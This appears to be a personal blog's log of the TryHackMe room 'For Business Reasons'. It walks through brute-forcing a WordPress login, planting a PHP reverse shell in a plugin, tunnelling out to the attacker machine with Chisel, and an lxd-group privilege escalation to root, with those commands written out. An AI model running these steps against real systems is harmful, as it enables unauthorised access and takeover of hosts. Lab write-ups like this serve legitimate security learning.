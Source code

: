 ```yaml
---
layout: post
title: CTF Log - For Business Reasons {THM}
description: A log of how I did the TryHackMe room For Business Reasons by MsMouse
summary: A log of the THM room "For Business Reasons"
tags: ctf log
minute: 9
---
```

<br/>

> {{ page.description }}

<br/>

# For Business Reasons
## Wordpress Login Bruteforce & Plugin Reverse Shell
Scanned and received responses from the following ports: 22, 80, 2377, 7946. Only port 80 registered as open. 

Found a Wordpress blog and noticed that the default/template posts were made by a user named `sysadmin.` So, I chucked a `rockyou.txt` bruteforce against that username while I further enumerated the site. 

Soon after, I landed a valid password. 

I chucked a `rockyou.txt` bruteforce against the username `sysadmin` while I researched that vulnerability and landed a valid password.

Edited an existing plugin to include a PHP reverse shell and enabled the plugin; got a shell as `www-data` in a Docker container.

## Proxying Through Docker Container
The Docker container I landed in was lacking a lot core networking utils like `ping`, `ip`, `ifconfig`, etc. After poking around for a while I stumbled upon [this](https://staaldraad.github.io/2017/12/20/netstat-without-netstat/) fantastic blog post by [Staaldraad](https://staaldraad.github.io/). In it they detail some research into parsing data from the `/proc/net/tcp` pseudofile to recreate the `netstat` and `id` commands. 

I use their `awk` script:

```
{% highlight bash [linenos] %}
{% raw %}
awk 'function hextodec(str,ret,n,i,k,c){
    ret = 0
    n = length(str)
    for (i = 1; i <= n; i++) {
        c = tolower(substr(str, i, 1))
        k = index("123456789abcdef", c)
        ret = ret * 16 + k
    }
    return ret
}
function getIP(str,ret){
    ret=hextodec(substr(str,index(str,":")-2,2)); 
    for (i=5; i>0; i-=2) {
        ret = ret"."hextodec(substr(str,i,2))
    }
    ret = ret":"hextodec(substr(str,index(str,":")+1,4))
    return ret
} 
NR > 1 {{if(NR==2)print "Local - Remote";local=getIP($2);remote=getIP($3)}{print local" - "remote}}' /proc/net/tcp
{% endraw %}
{% endhighlight %}
```

to see the current open TCP connections. 

![Screenshot of aforementioned awk script and output.](/assets/media/forbusinessreasons/proc_net_tcp_netstat.png)

I noticed a connection between `172.18.0.3` and `10.13.1.225`. Since the latter is my attack machine's IP address I conclude that the former IP address belongs to the container that I'm in. From there I correctly assume that the gateway address of that subnet, `172.18.0.1`, belongs to the machine hosting the Docker container; I use the following to scan for certain ports on that address. 
```bash
curl -m 1 --include -v localhost:$x
```

- `-m 1` Setting a max timeout time for the curl attempt, prevents me from getting stuck on an unresponsive port, which would require me to `ctrl+c` and thusly break my non-pty shell.

After identifying an open port 22 on the host machine, I download [Chisel](https://github.com/jpillora/chisel) onto the docker container and launch the client command: 

```bash

$ ./chisel client 10.13.1.225:1234 R:2002:172.168.0.1:22
2021/09/13 21:34:59 client: Connecting to ws://10.13.1.225:1234
2021/09/13 21:35:00 client: Connected (Latency 184.290108ms)
```

And on my attacker machine, the server command:

```bash
┌──(kali㉿kali)-[/opt/chisel/binaries]
└─$ ./chisel_1.7.6_linux_amd64 server -p 1234 --reverse

2021/09/13 16:32:53 server: Reverse tunnelling enabled
2021/09/13 16:32:53 server: Fingerprint gOtbf9dlNJ2ecdo44g20iAMt+SSp8NkeAfp5CWKusaU=
2021/09/13 16:32:53 server: Listening on http://0.0.0.0:1234
```

I'm then able to ssh against my local machine and have my request proxied through to the victim host machine. The credentials for `sysadmin` are reused from the Wordpress blog.

## lxc Privileged, Recursive Container Filesystem Privesc
The privilege escalation technique is simple. My user, `sysadmin`, belongs to the `lxd` group which by default allows that user to use `lxc` to escalate privileges. 

I create an [Alpine](https://hub.docker.com/_/alpine) container on my attacker machine using [Distrobuilder](https://github.com/lxc/distrobuilder) then download the resulting files onto the victim machine. 

I then execute the following sequence of commands (Learned from [Hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation)) to create a privileged docker container whose filesystem contains a recursive mount of the host machine's filesystem. This allows me to enter the docker container as `root` and act upon the host filesystem as `root`.

```bash
sysadmin@ubuntu:~$ lxc image import lxd.tar.xz rootfs.squashfs --alias alpine
Image imported with fingerprint: 02aa7f299f733b42a726c44d6505645cf23e67ebcb31fda3ec24e8c2d4c0497b             
sysadmin@ubuntu:~$ lxc init alpine privesc -c security.privileged=true             
Creating privesc
sysadmin@ubuntu:~$ lxc config device add privesc host-root disk source=/ path=/mnt/root recursive=true
Device host-root added to privesc
sysadmin@ubuntu:~$ lxc start privesc
sysadmin@ubuntu:~$ lxc exec privesc /bin/sh
~ # id
uid=0(root) gid=0(root)
```